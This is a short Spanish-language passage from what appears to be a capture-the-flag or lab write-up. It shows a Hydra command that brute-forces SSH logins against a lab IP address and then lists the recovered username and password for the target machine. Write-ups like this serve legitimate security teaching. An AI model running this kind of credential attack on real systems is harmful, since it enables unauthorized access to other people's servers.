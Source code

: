 ![Yw4rf Internship](intership-13.png)

En este caso se utiliza la herramienta **`Hydra`** con el comando **`hydra -L users.txt -p purpl3 ssh://172.17.0.2 -V`**

![Yw4rf Internship](intership-14.png)

Una vez obtenidas las credenciales es posible acceder al **servicio SSH** de la víctima:

~~~
User: pedro
Password: purpl3
~~~

![Yw4rf Internship](intership-15.png)
